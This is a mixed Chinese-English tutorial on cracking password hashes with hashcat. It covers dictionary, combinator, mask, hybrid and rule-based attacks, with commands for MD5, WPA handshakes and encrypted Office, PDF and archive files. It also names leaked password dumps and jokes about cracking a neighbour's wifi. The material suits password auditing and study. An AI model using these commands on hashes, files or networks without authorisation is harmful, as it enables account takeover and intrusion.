        One is to enumerate candidate strings and what I mean by that is taking a list of these strings that you want convert via hashing algorithm, and then match that hash after the algorithm output with with the hash that you're trying to essentially determine the plaintext counterpart to. So, you take some strings, and you convert them through a hashing algorithm, you look at the output and you see if the hashing output matches any o the hashes that you want to decipher.
    * using rainbow
        The second options is to use pre-computation. You may heard of something called rainbow tables which is a version of that what that involves is essentially doing all the pre-computation of the hashes of the candidate strings in advance which can take up a tremendous amount of storage space but as we know storage space is relatively cheap these days and so instead of doing work as you go you have these pre-computed tables you simply take the hash that you want to determine the plain text of and it looks up in the pre-computed table to see if it exists within that particular file set or database. So you could have billions of pre-computed hashes and simply do a lookup that can just take a matter of seconds.
实际情况一般是这样的：破解者从某些渠道搞到了一大批用户名和hash后的密码，然后打算破解出原始密码，这样就能直接拿来登录网站了。
hash也叫哈希函数或散列函数，就是把你的原始密码拆散组合计算后变成一大串乱码，肉眼绝对看不出来原来是什么内容，常用的hash算法有md5、sha1、sha256等。
假如你的密码是“123456”，那么它md5的结果就是“e10adc3949ba59abbe56e057f20f883e”。
而且只要原文稍有变动，md5结果就会彻底变化。
比如“123455”的md5结果是“00c66aaf5f2c3f49946f15c1ad2ea0d3”，跟上面的没有半个字相同。
网站的数据库里不会存放你的“123456”，只会存这堆字符，就算被人把整个数据库拖走，也没法直接拿你的用户名和密码登录网站，必须要进行破解。

而且所有的hash都有个特点，就是无法反推出原文。道理很简单，比如md5的长度是固定的32位，所以它的数量是有限的，而原文要多长有多长，数量是无限的，从个位数到几十G的大文件都能hash成32位的字符串。有限个对上无限个，总会有重复，所以理论上hash无法真正破解，因为一段密文对应了无数原文。但反过来想，只要找到这无数原文中的任何一个，就等于找到原始密码了。
假设我得到了某段md5密文，经过数百上千亿次尝试后终于试出某个字串，它的md5结果也是这段密文，这种“破解”方法的学名叫碰撞（collision）。而碰撞出来的字串此时等同于原始密码。

上面说的“每秒80亿”，其实就是oclHashcat-plus用暴力破解时计算hash的最高速度，它用的是显卡GPU不是CPU，因为现在显卡的性能比CPU强多了。
看上去快得吓人，实际没那么厉害，要知道8位大小写英文加数字的密码一共有多少种？
（26+26+10）的8次方，2183401亿。每秒80亿次的话，7.5小时才能试完一个。
密码长度加一位，时间至少增长62倍。如果密码里还有各种字符，那时间就更长了。
想想55位的密码要多久才能破？还没算到百万分之一，想登录的网站都倒闭了。

不过且慢，尽管暴力破解要费很长时间，这并不代表你的账户密码从此安全了，黑客也没那么蠢，只会傻乎乎地一个个硬算密码，人家有的是方法：

* 字典：绝大部分普通用户的密码简单得令人发指，纯数字、生日、名字、单词、拼音……把这些东西排列组合在一起，做成一个密码字典，计算量比直接暴力破解少了几个数量级。某人拿到了100万个hash，假如纯暴力破解要一年，那用字典可能两小时就破解出了80万个，剩下的可以整理出来再去用别的方法破，反正手头已有的80万个账号密码想干啥干啥。
* 彩虹表：毕竟不是什么密码都能放到字典里，稍微复杂的就不行了，最终还是得靠暴力。有人想出了提升效率的方法，就是空间换时间，不用你一个个当场hash，而是提前算好，存到一张巨大的表里，破解时只查不计算，速度有了极大飞跃。使用彩虹表进行破解，普通PC也能达到每秒1000亿次以上的惊人速度。
   而且许多网站为了增加安全性，不会简单地做一次md5就保存到数据库。比如md5后再md5一次；或者在原始密码前后补上一串字符，增加密码长度后再hash，学名叫加盐（salt）；这些算法的结果都可以加入彩虹表中。网上公开了数百G的彩虹表供下载，花一星期下载它比自己花几个月算出来可合适多了。最完善的彩虹表差不多能破解出目前网上99.9%的密码。
* 高性能电脑和集群：前面说的每秒80亿次是一块顶级显卡的速度，但最新版oclHashcat-plus已经支持最多128个显卡核心。这张图是Hashcat团队的电脑，计算核心是8块HD7970显卡，总价上万美元：
    
它的速度有多快？反正我尝试用自家电脑运行oclHashcat-plus暴力破解一个8位的、字母数字符号混合的密码预计需要29天，而这台只需要不到12小时。
但它再强也只是单台电脑，顶级黑客拥有的集群计算资源包括肉鸡等等，辅以前面讲到和没讲到的各种算法，破解几千万甚至上亿的密码并不难想象。另一个问题如何分析《中国黑客传说：游走在黑暗中的精灵》文章内容的真实性？中提到顶级黑客手中有十几亿条账号密码、用云计算破解hash，虽然我不认识人家，但这些技术的可行性当然是确凿无疑的。
* 上面说的都是黑客一方拖走别人数据库后进行的破解，要知道，拖库本来就是通过漏洞和入侵才能进行的。如果服务器安全做得好，黑客很难拿到用户数据；但如果网站方自己不上心，后门漏洞一大堆，四五流的黑客都能在里面逛大街，那你的账号密码基本上就难保贞操了。
甚至有更愚蠢的事件：比如前两年CSDN论坛900多万用户数据泄露，密码居然是明文存储、连一次hash都没做——这件事实在颠覆我的世界观，要知道它可是个程序员网站——遇到这种事，只好自认倒霉，去别的网站改掉同一个密码吧。
* 对了最后再说一点，如果不是专业黑客，那oclHashcat-plus的最大作用之一可能是破解邻居的wifi密码……它绝对比某些一键式破解工具快，缺点是你得自己抓wpa握手包。
* habits of passwords
    * Many people are going to capitalize the first character
    * append numbers at the end of the string
* websites of leaked passwords
    * RockYou-32.6M plaintext
    * eHarmony-1.5M unsalted MD5
    * LinkedIn-6.5 unsalted SHA1
    * Gawker-1.3M unsalted DES
### requirements
* AMD GPUs on Linux require "RadeonOpenCompute (ROCm)" Software Platform (1.6.180 or later)
* AMD GPUs on Windows require "AMD Radeon Software Crimson Edition" (15.12 or later)
* Intel CPUs require "OpenCL Runtime for Intel Core and Intel Xeon Processors" (16.1.1 or later)
* Intel GPUs on Linux require "OpenCL 2.0 GPU Driver Package for Linux" (2.0 or later)
* Intel GPUs on Windows require "OpenCL Driver for Intel Iris and Intel HD Graphics"
* NVIDIA GPUs require "NVIDIA Driver" (367.x or later)
### Install
* install on ubuntu

        git clone https://github.com/hashcat/hashcat.git
        cd hashcat
        git submodule update --init --recursive
        sudo make
        sudo make install
* install on windows
Hashcat的强大破解能力依赖于显卡的GPU浮点运算，建议直接在物理机上安装Kali和显卡驱动。Kali安装显卡驱动，参考Kali官方教程，双显卡安装显卡驱动遇到黑屏参考这篇文章解决。VMware虚拟机中hashcat也可以使用CPU运行，只是破解速度远远低于GPU破解。也可以在主机windows上使用hashcat
  * 首先要安装最新的显卡驱动
  * 然后下载hashcat的binary
  * 然后cmd，管理员运行，拖拽hashcat的64位exe运行
  * 其他文件也可以拖拽，如字典文件，破解结果等。
### 先介绍几个相对比较好用的在线hash破解站
* cmd5.com
* www.objectif-securite.ch
* 淘宝
* `findmyhash md5 -h ff9830c42660c1dd1942844f8069b74a`
### 使用hashcat前的一点点准备工作
务必保证已经事先装好对应的显卡驱动看官网这情况,最新版的hashcat除了增加了一些新的散列类型之外,貌似也已经不再区分AMD和英伟达显卡了,如果你用的是旧版本的hashcat,请根据自己实际的显卡类型来选择对应版本的hashcat,之后再到其官方站点把hashcat down下来,注意,直接解压即可运行,无需再额外装任何东西,用什么系统就运行对应系统的可执行程序即可实际破解中,更推荐用linux,可能就是装驱动稍微有点儿麻烦,不过还好啦,如果实在搞不定,在win下跑也是一样的,本来想用显卡给大家演示的,没办法,家里的电脑,集成显卡没钱,无奈,大家谅解哈,所以,下面就直接全部用kali自带的hashcat来演示了,不同类型的hashcat,单就用法来讲,其实也没啥太大区别,实际使用中建议还是自己买块好点儿的显卡跑,如果真有条件很显然,本人是个穷逼GPU矩阵也是可以考虑的.
`https://hashcat.net/files/hashcat-3.6.0.7z`
### 关于hashcat的一些常用选项
如果在kali中提示要升级到新版本[kali2.x可能会出现这样的情况],请把系统时间修改到2010年之前即可,这里就只说几个最常用的选项,关于其它的各种小选项,因为自己实际中用的比较少,如果大家万一用到,扫一眼帮助即可,篇幅原因这里就只捡最核心的说了
* `-a`: for the type of attack,指定要使用的破解模式
* `-m`: for the type of hash,指定要破解的hash类型所对应的id[下面有一份完整的hash id对照表],几乎现在市面上常用的一些散列类型它都支持,而且每个版本更新都会增加一些新的算法
* `-o`: 指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
* `--force`: 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
* `--show`: 显示已经破解的hash及该hash所对应的明文
* `--increment`: 启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程,其实,并不建议这么用,因为破解时间可能会比较长
* `--increment-min`: 密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
* `--increment-max`: 密码最大长度,同上
* `--outfile-format`: 指定破解结果的输出格式id,一般自己常用`3`
* `--username`: 忽略hash文件中的指定的用户名,在破解win和linux系统用户密码hash可能会用到
* `--remove`: 删除已被破解成功的hash
* `-r`: 使用自定义破解规则,这个后期抽空再说吧,比较的复杂,不是一两句话能说完的
### 不同破解模式下的具体工作细节
* `0`: Straight.最简单的纯粹基于字典的爆破模式,后面可以连续跟上多个字典文件,破解的成功与否最终还是取决于字典质量,在几乎同等的破解时间里,是我我肯定不会先选它的,简单跑一些弱口令什么的,还是可以的,话说回来,如果只是跑些弱口令,大可不用hashcat,未免有些大材小用了,不是吗
* `1`: Combination. 一种相对智能高效的爆破模式,它的意思是这样的,如果你事先已经明确知道密码中可能包含哪些字符串,你可以把那些字符串事先写到文件中,每行对应一个字符串,然后hashcat会自动根据你所提供的这些字符串,尝试所有可能的组合进行猜解
* `3`: Brute-force. 基于纯掩码的爆破方式,如果你有需求要大批量爆破hash,可能会用到,后面我们会用绝大部分的篇幅来说它,这里需要稍微注意下,你给定的掩码是多少位它就只破解多少位,比如,你给的是7位的掩码,它就只跑7位这么长,它可能并不是你想象的那样,是从1位一直跑到第7位这样自动轮询,如果你想让它自动变长跑,启用increment模式指定密码的最小和最大长度即可,之前理解的有点儿错,也是看官方的wiki才知道的,汗…
* `6`: Hybrid Wordlist + Mask. 基于字典和掩码配合的爆破模式,它的破解过程其实也比较简单,就是每次从前面的字典中取出一个字符串然后和后面掩码的所有组合进行拼接,直到撞到对应的明文
* `7`: Hybrid Mask + Wordlist.  基于掩码和字典配合的爆破模式,跟6的过程正好相反,只不过这次它是从前面进行拼接
### 不同的掩码所表示的具体字符及掩码字符集规则使用样例:
掩码是个非常灵活的东西,你可以把它放到任何你想放的位置上,甚至,你愿意的话,也可以把自己想跑的一些掩码规则都事先放到一个文件中,然后以.hcmask命名,加载就可以让hashcat自动跑了,这样用起来比较方便,省的后期经常需要人为干预,后续会为大家简单演示下
* `l`: abcdefghijklmnopqrstuvwxyz 纯小写字母
* `u`: ABCDEFGHIJKLMNOPQRSTUVWXYZ 纯大写字母
* `d`: 0123456789					纯数字
* `h`: 0123456789abcdef				常见小写子目录和数字
* `H`: 0123456789ABCDEF				常见大写字母和数字
* `s`:  !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~		特殊字符
* `a`: ?l?u?d?s					以上所有字符
* `b`: 0x00 - 0xff					可能是用来匹配像空格这种密码的
#### An example of `.hcmask`
`cat test.hcmask`

        ?u?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
run `hashcat -a 3 -m 11300 dash.hash test.hcmask -o cracked.txt --session test1`
### Examples
* `?l?l?l?l?l?l?d?d?d?d`: 表示6位小写子目录4位数字组成的密码,注意这里的位置全部都是一一对应的
* `de?l?d?s56pos`: 表示由de加一位小写字母加一位数字加一位特殊字符后面跟上56pos组成的密码
#### 自定义字符集规则
* `-1 ?l?s ?1?1?1?1?1`: 表示五位由特殊字符和小写字母组成的密码
* `-1 ?d?l -2 ?d?l?u -3 ?l?u ?1?2?3`: 表示密码的第一位可能是小写字母或者数字,第二位可能是大小写字母或者数字,第三位可能是大或小写字母
### 不同破解模式下的具体应用场景,用的时候需要稍微注意下语句格式(暂以破解最普通的md5 hash为例)
#### 基于纯字典的爆破模式 Straight:
`hashcat --force -a 0 -m 0 hash.txt /home/weak_wordlist/pass/weakpass.txt -o res.txt`
`cat res.txt`

for multiple dictionaries in one folder:
`hashcat -a 0 -m 2500 cap.hccapx path/to/dictionaries/folder`
#### 稍微智能一些的字典爆破模式,需要事先把密码中有可能包含到的单词都放到字典中 Combination
比如,我有两个这样的字典,字典包含如下的字符串,而我的实际密码是adminpass [ 字典文件可同时有很多个,不过那也意味你的组合也会特别多,速度就会慢 ],实际破解就可以像下面就这样写
`cat dic1.txt dic2.txt`

`hashcat --force -a 1 -m 0 hash.txt dic1.txt dic2.txt`

##### Combinator Attack
##### Description
Each word of a dictionary is appended to each word in a dictionary.
##### Input
If our dictionary contains the words:

        pass
        12345
        omg
        Test
##### Output
Hashcat creates the following password candidates:

        passpass
        pass12345
        passomg
        passTest
        12345pass
        1234512345
        12345omg
        12345Test
        omgpass
        omg12345
        omgomg
        omgTest
        Testpass
        Test12345
        Testomg
        TestTest
##### Combinator Attack
Using the Combinator Attack within hashcat (not standalone version of Combinator Attack).
The command for the Combinator Attack in hashcat is `-a 1`
You need to specify **exactly** 2 dictionaries in your command line: e.g.
`./hashcat64.bin -m 0 -a 1 hash.txt dic1.exe dic2.txt`
If you wish to add rules to either the left or right dictionary or both at once then you can use the `-j` or `-k` commands.
`-j`, `--rule-left=RULE`        Single rule applied to each word on the left dictionary
`-k`, `--rule-right=RULE`       Single rule applied to each word on the right dictionary
Example.
Dictionary 1

        yellow
        green
        black
        blue

Dictionary 2

        car
        bike
Commands

        -j '$-'
        -k '$!'
Note: the quotes are only there to escape the `$` character which would otherwise allow `$-` to be interpreted as a variable. The rules that are used here are still just `$-` and `$!`. Escaping might not work exactly the same way on each operating system and with each shell interpreter (if you are unsure about what needs to be escaped and how it should be escape, please consider looking up your OS and/or shell interpreter manual).
The output would be

        yellow-car!
        green-car!
        black-car!
        blue-car!
        yellow-bike!
        green-bike!
        black-bike!
        blue-bike!

#### 基于纯掩码的爆破模式,其实就是尝试逐个位破解,一般人的密码设置习惯大都是基于大小写字母数字这种形式的,如果hash实在比较多,可以尝试从指定的位数开始一位位的将大小写特殊字符轮询这跑,可以节省一些时间 [Brute-force]
* 破解九位纯小写字母组成的密码hash,可以看到在我双CPU双核的虚拟机中破解这种只是两三分钟的事情
`hashcat --force -a 3 -m 0 hash.txt ?l?l?l?l?l?l?l?l?l`

* 前三位小写字母,后四位数字
`hashcat --force -a 3 -m 0 hash.txt ?l?l?l?d?d?d?d`

* 10位纯数字,其实大家都很清楚,底层对数字的处理速度是最快的
    `hashcat --force -a 3 -m 0 hash.txt ?d?d?d?d?d?d?d?d?d?d`
    

* 7位小写字母加数字的随机组合
    `hashcat --force -a 3 -m 0 hash.txt -1 ?l?d ?1?1?1?1?1?1?1`
    

#### 除了上面这种常规的掩码写法,你也可以这样,比如,你明确的知道密码的某一位或者几位上可能是什么字符,你也可以这样写掩码,假设密码明文为loveshare,你实际破解的掩码就可以这样写,它只会去破解有掩码的位,速度自然就非常快了
`hashcat --force -a 3 -m 0 hash.txt ?l?lve?l?la?l?l`

#### 基于字典和掩码配合的爆破模式,把可能存在的字符串事先写到字典中,然后hashcat在破解的时候会把后面所有的掩码组合跟前面的字典每行中的字符串进行拼接,直到猜解出明文,下面也是一样,只不过下面是把掩码放在了前面字典放在了后面`Hybrid Wordlist + Mask`,其实,它想表达的意思非常简单,如
dic1.txt 中的内容是这样的
admin
root
...
实际的明文密码是这样的
`adminpass123`
那你实际破解的掩码,就可以这样写
`hashcat --force -m 0 hash.txt -a 6 dic1.txt -1 ?l ?l?1?1?1?d?d?d`

其实,它实际的拼接过程就相当于下面这样,直到最后就会撞到adminpass123
`admin?1?1?1?1?d?d?d`
`pass?1?1?1?1?d?d?d`
#### 下面是多字典实例
`hashcat --force -m 0 hash.txt -a 6 dic1.txt dic2.txt -1 ?l ?l?1?1?1?d?d?d`

#### 基于掩码和字典配合的爆破模式 [Hybrid Mask + Wordlist]:
`hashcat --force -m 0 hash.txt -1 ?l?d ?1?1?1?1 -a 7 dic1.txt dic2.txt`

#### 基于increment的自动变长模式,下面的意思就表示自动破解4到8位由小写子目录和数字组成的密码hash:
`hashcat --force -a 3 -m 0 hash.txt --increment --increment-min=4 increment-max=8 -1 ?l?d`

#### Using rules
Hashcat has a built-in function for writing custom scripts for modifying each line in a wordlist automatically. For example, say you have a wordlist with only the word "password" in it. Running a rule against this file might make hashcat first try "password", then try "password1", then try "password123", etc. The variations are dependent on the rules written in the rules file.
Luckily, you don't have to be a master at writing rules files in order to utilize them. Like wordlist, Kali comes with a bunch of rules that are built in. The most famous one of these has 64 different modifier variations built in and is called _base46.rule_. The Windows syntax for this rule is as follows:
`hashcat64 -m2500 -r rules\base64.rule -o cracked capturefile-01.hccapx rockyou.txt`
Again, mind the syntax. This assumes that the base64.rule file is in a subdirectory called *rules*, and the *capturefile-01.hccapx* and *rockyou.txt* file are jin the working directory. Relative and absolute paths can be used in either Linux or Windows for any of these parameters. Also keep in mind that if you are applying 64 variations to each password in the list, that running this command with the rule applied that applies base64.rule is going to take 64 times longer than just running the wordlist alone.
#### 破解 wpa/wpa2 握手包中的无线密码hash [可能需要你自己先把握手包用wpaclean整理一下,再用aircrack输出成hashcat认识的散列格式,非常实用,具体内容请查看无线破解相关文章]:
`hashcat -a 3 -m 2500 wpahash.hccap ?l?l?l?l?l?l?l?l`
#### 破解Adobe PDF 11文件密码hash,后面针对这种包公套件的加密破解,都需要自己先把hash提取出来,在john基本都有对应的hash提取脚本,可直接用,后续我们再说,下面几种类型的破解有几个还有一些问题,不过,我们后面用john来搞就好了
`hashcat --force -m 10700 hash.txt -a 3 ?d?d?d?d?d?d`
#### 破解 Office 2013 文件密码hash:
`hashcat --force -m 9600 hash.txt -a 3 ?d?d?d?d?d?d`
#### 破解 RAR5压缩文件密码hash:
`hashcat --force -m 13000 hash.txt -a 3 ?d?d?d?d?d?d`
#### 破解 7-Zip压缩文件密码hash:
`hashcat --force -m 11600 hash.txt -a 3 ?d?d?d?d?d?d`
#### 破解 WinZip压缩文件密码hash:
`hashcat --force -m 13600 hash.txt -a 3 ?d?d?d?d?d?d`
### Rule-based Attack
#### Description
The rule-based attack is one of the most complicated of all the attack modes. The reason or this is very simple. The rule-based attack is like a programming language designed for password candidate generation. It has functions to modify, cut or extend words and has conditional operators to skip some, etc. That makes it the most flexible, accurate and efficient attack.
#### Why not stick to regular expressions
Why re-invent the wheel? Simple answer: regular expressions are too slow. Typically we have to generate 1,000,000,000 (or more) fresh password candidates in less than 10 ms before hashing algorithms start to become idle, and then again and again, second after second. Just take a look at your GPU speed display to get an idea of it.
#### Compatibility to other rule engines
The rule-engine in Hashcat was written to that all functions that share the same letter-name are 100% compatibility to John the Ripper and PasswordPro rules and vice versa. Later we started to introduce some of our own functions that are not compatible. But these functions got their own letter-names to avoid conflicts.
####Implemented compatible functions

Name|Function|Description|Example Rule|Input Word|Output Word|Note
--|--|--|--|--|--|--
Nothing|:|do nothing|:|p@ssW0rd|p@ssW0rd|
Lowercase|l|Lowercase all letters|l|p@ssW0rd|p@ssw0rd|
Uppercase|u|Uppercase all letters|u|p@ssW0rd|P@SSW0RD|
Capitalize|c|Capitalize the first letter and lower the rest|c|p@ssW0rd|P@ssw0rd|
Invert Capitalize|C|Lowercase first found character,uppercase the rest|C|p@ssW0rd|p@SSW0RD|
Toggle Case|t|Toggle the case of all characters in word|t|p@ssW0rd|P@SSw0RD|
Toggle @|TN|Toggle the case of characters at position N|T3|p@ssW0rd|p@sSW0rd|*
Reverse|r|Reverse the entire word|r|p@ssW0rd|dr0Wss@p|
Duplicate|d|Duplicate the entire word|d|p@ssW0rd|p@ssW0rdp@ssW0rd|
Duplicate N|pN|Append duplicated word N times|p2|p@ssW0rd|p@ssW0rdp@ssW0rdp@ssW0rd|
Reflect|f|Duplicate word reversed|f|p@ssW0rd|p@ssW0rddr0Wss@p|
Rotate Left|{|Rotates the word left|{|p@ssW0rd|@ssW0rdp|
Rotate Right|}|Rotates the word right|}|p@ssW0rd|dp@ssW0rd|
Append Character|$X|Append character X to end|$1|p@ssW0rd|p@ssW0rd1|
Prepend Character|^X|Prepend X to front|^1|p@ssW0rd|1p@ssW0rd|
Truncate left|[|Deletes first character|[|p@ssW0rd|@ssW0rd|
Truncate right|]|Deletes last character|]|p@ssW0rd|p@ssW0r|
Delete @ N|DN|Deletes character at position N|D3|p@ssW0rd|p@sW0rd|*
Extract range|xNM|Extracts M characters, starting at position N|x04|p@ssW0rd|p@ss|*
Omit range|ONM|Deletes M characters, starting at position N|O12|p@ssW0rd|psW0rd|*
Insert @ N|iNX|Inserts character X at position N|i4!|p@ssW0rd|p@ss!W0rd|*
Overwrite @ N|oNX|Overwrites character at position N with X|o3$|p@ssW0rd|p@s$W0rd|*
Truncate @ N|'N|Truncate word at position N|'6|p@ssW0rd|p@ssW0|*
Replace|sXY|Replace all instances of X with Y|ss$|p@ssW0rd|p@$$W0rd|
Purge|@X|Purge all instances of X|@s|p@ssW0rd|p@W0rd|+
Duplicate first N|zN|Duplicates first character N times|z2|p@ssW0rd|ppp@ssW0rd|
Duplicate last N|ZN|Duplicates last character N times|Z2|p@ssW0rd|p@ssW0rddd|
Duplicate all|q|Duplicate every character|q|p@ssW0rd|pp@@ssssWW00rrdd|
Extract memory|XNMI|Insert substring of length M starting from position N of word saved to memory at position I|lMX428|p@ssW0rd|p@ssw0rdw0|+
Append memory|4|Append the word saved to memory to current word|uMl4|p@ssW0rd|p@ssw0rdP@SSW0RD|+
Prepend memory|6|Prepend the word saved to memory to current word|rMr6|p@ssW0rd|dr0Wss@pp@ssW0rd|+
Memorize|M|Memorize current word|lMuX084|p@ssW0rd|P@SSp@ssw0rdW0RD|+
* `*` Indicates that N starts at 0. For character positions other than 0-9 use A-Z(A=10)
* `+` Indicates that this rule is implemented in hashcat only.
* `#` Changed in oclHashcat v1.37→ v1.38 and hashcat v0.51 → v0.52
#### Rules used to reject plains

Name|Function|Description|Example Rule|Note
--|--|--|--|--
Reject less|`<N`|Reject plains if their length is greater than N|`<G`|*
Reject greater|`>N`|Reject plains if their length is less or equal to N|`>8`|*
Reject equal|`_N`|Reject plains of length not equal to N|`_7`|*
Reject contain|`!X`|Reject plains which contain char X|`!z`|
Reject not contain|`/X`|Reject plains which do not contain char X|`/e`|
Reject equal first|`(X`|Reject plains which do not start with X|`(h`|
Reject equal last|`)X`|Reject plains which do not end with X|`)t`|
Reject equal at|`=NX`|Reject plains which do not have char X at position N|`=1a`|*
Reject contains|`%NX`|Reject plains which contain char X less than N times|`%2a`|*
Reject contains|`Q`|Reject plains where the memory saved matches current word|`rMrQ`|e.g. for palindrome
Note: Reject rules only work either with hashcat-legacy, or when using `-j` or `-k` with hashcat. They will not work as regular rules (in a rule file) with hashcat.
`*` Indicates that N starts at 0. For character positions other than 0-9 use A-Z (A=10)
#### Implemented specific functions
The following functions are not available in John the Ripper and/or PasswordsPro:

Name|Function|Description|Example Rule|Input Word|Output Word|Note
--|--|--|--|--|--|--
Swap front|k|Swap first two characters|k|p@ssW0rd|@pssW0rd|
Swap back|K|Swap last two characters|K|p@ssW0rd|p@ssW0dr|
Swap @ N|*NM|Swaps character at position N with character at position M|*34|p@ssW0rd|p@sWs0rd|*
Bitwise shift left|LN|Bitwise shift left character @ N|L2|p@ssw0rd|p@æsW0rd|*
Bitwise shift right|RN|Bitwise shift right character @ N|R2|p@ssW0rd|p@9sW0rd|*
Ascii increment|+N|Increment character @ N by 1 ascii value|+2|p@ssW0rd|p@tsW0rd|*
Ascii decrement|-N|Decrement character @ N by 1 ascii value|-1|p@ssW0rd|p?ssW0rd|*
Replace N+1|.N|Replaces character @ N with value at @ N plus 1|.1|p@ssW0rd|psssW0rd|*
Replace N-1|,N|Replaces character @ N with value at @ N minus 1|,1|p@ssW0rd|ppssW0rd|*
Duplicate block front|yN|Duplicates first N characters|y2|p@ssW0rd|p@p@ssW0rd|*
Duplicates block back|YN|Duplicates last N characters|Y2|p@ssW0rd|p@ssW0rdrd|*
Title|E|Lower case the whole line, then upper case the first letter and every letter after a space|E|p@ssW0rd w0rld|P@ssw0rd W0rld|*
Title w/separator|eX|Lowercase the whole line, then upper case the first letter and every letter after a custom separator character|e-|p@ssW0rd-w0rld|P@ssw0rd-W0rld|+
* `*` Indicates that N starts at 0. For character positions other than 0-9 use A-Z (A=10)
* `+` Only in JtR?
#### Writing rules
The most important thing in writing rules is knowing what you want to write.That typically means you have to analyze dozens of plaintext passwords, maybe from a customer, to see a pattern. For example, a common pattern is that people append a digit to their passwords to improve its strength. So we have two "parameters":
* We want to append something.
* The value we want to append is a *digit*.
If we take a look at the function overview we see that we can append something using the `$` function. So, for example, if we want to add a "1" to our password, we write a rule that looks like this.
`$1`
Simple enough. But what if we want to do all numbers 1-9? Well that's what we call a Hybrid attack, just take a look at this page.
Also note:
* Whites spaces are ignored as long as they are not used as a parameter. That enables formating of our "source code" a bit.
* To comment out some text, it has to start with a `#` char.
#### Generating rules
There are two ways to automatically "generate" rules.
* Using the maskprocessor, we have a dedicated article on this topic here: [Using maskprocessor to create rules](https://hashcat.net/wiki/doku.php?id=rules_with_maskprocessor)
* Using random rules
##### Using maskprocessor to generate rules
Let's suppose you want to make a rule which adds 3 digits after each words of your dict, and save the rules in a file called "append_3_digits.rule".
###### By hand

        $ vim append_3_digits.rule
        $0 $0 $0
        $0 $0 $1
        $0 $0 $2
        $0 $0 $3
        $0 $0 $4
        $0 $0 $5
        $0 $0 $6
        $0 $0 $7
        $0 $0 $8
        $0 $0 $9
        $0 $1 $0
        $0 $1 $1
        and so on...
As you can see, creating rules by hand could be very boring and time-consuming :p
###### Using maskprocessor
`$ ./map64.bin -o append_3_digits.rule '$?d $?d $?d'`
maskprocessor allows you to easily and quickly generate rule files.
Syntax:
* `$` is the function to append a char
* `?d` is the digits charset
###### Example Commands
Here are some example commands to enable you to generate common rules locally on your own computer.

        mp64.exe -1 0123456789 "^?1^?1^?1" -o Prefix-0-999.rule
        mp64.exe -1 0123456789 "l^?1^?1^?1" -o Lower-All-Prefix-0-999.rule
        mp64.exe -1 0123456789 "c^?1^?1^?1" -o Upper-First-Prefix-0-999.rule
        mp64.exe -1 0123456789 "d^?1^?1^?1" -o Double-Word-Prefix-0-999.rule

        mp64.exe -1 0123456789 "$?1$?1$?1" -o Suffix-0-999.rule
        mp64.exe -1 0123456789 "l$?1$?1$?1" -o Lower-All-Suffix-0-999.rule
        mp64.exe -1 0123456789 "c$?1$?1$?1" -o Upper-First-Suffix-0-999.rule
        mp64.exe -1 0123456789 "u$?1$?1$?1" -o Upper-All-Suffix-0-999.rule
        mp64.exe -1 0123456789 "d$?1$?1$?1" -o Double-Word-Suffix-0-999.rule
* Paste them into a text file and name it "Hashcat Rule Generator.cmd".
* Place this new file in the same directory as maskprocessor and double left click it.
You should very quickly be presented with a group of commonly used password modifications. Each rule file is individually named to help you understand its function.
###### Limitation
On Windows, when trying to insert the `^` character, enclose it in quotes. `^` is an escape character in the Windows command shell, and will not be printed unless quoted.
Example:
`mp32.exe -1 0123456789 "^"?1"^"?1"^"?1 -o "Prefix 0-999.rule"`
NOT
`mp32.exe -1 0123456789 ^?1^?1^?1 -o "Prefix 0-999.rule"`
##### Random rules
This is a very unique hashcat feature. With hashcat you can generate random rules on the fly to be used for that session. This is a good thing if you are out of ideas on what to do next when you have already tried all your rules on all your dictionaries. There are three configuration parameters:
Tells hashcat to generate NUM rules to be applied to each attempt:
`--generate-rules=NUM`
Specifies the number of functions that should be used (minimum to maximum range):
`--generate-rules-func-min=NUM`
`--generate-rules-func-max=NUM`
This number can be unlimited but large numbers are not recommended. When used in conjunction with -g, any rule outside of this setting will be ignored.
For example, it could randomly generate the rules "l r", "l ^f", and "sa@", these are all valid rules to be used. However, "l ^f sa@ r $3" would be ignored as it contains 5 functions. Default: min=1 max=4
You can mix your rules from a rules-file with randomly generated rules. For example, if your rules-file contains 200 rules and you use `-g 500`, it will generate 300 additional rules.
#### Debugging rules
With hashcat we can debug our rules easily. That means we can verify that the rule we wrote actually does what we want it to do. All you need to use is the `--stdout` switch and omit the hashlist.
Here is an example:
Create simple dictionary:
`$ echo WORD > word`
Generate a simple rule. The "c" rule capitalizes the first letter and lower-cases the rest.
`$ echo c > rule`
And that's how we see the generated debug output:
`$ ./hashcat-cli64.bin -r rule --stdout word`
`Word`
This "feature" is also a very fast password candidate generator. That means that if we have some external program that supports reading from stdin we can feed it with our output.
Note: `--stdout` must be used with CPU, not GPU. However, only `-D 2` (device-type 2 stands for GPU) with `--stdout` works.
#### Multi-rules
With release of old oclHashcat-plus v0.07 a complete new feature in the rule-based cracking world was added.
Instead of just giving one `-r` parameter and a file, you can now add as many `-r`s as you want.
They are not executed in a sequence!
Each rule of each rule-file is combined with each rule of each rule-file. This way you can easily cook you own attack mode.

        $ cat 123.rule
        $1
        $2
        $3

        $cat abc.rule
        $a
        $b
        $c

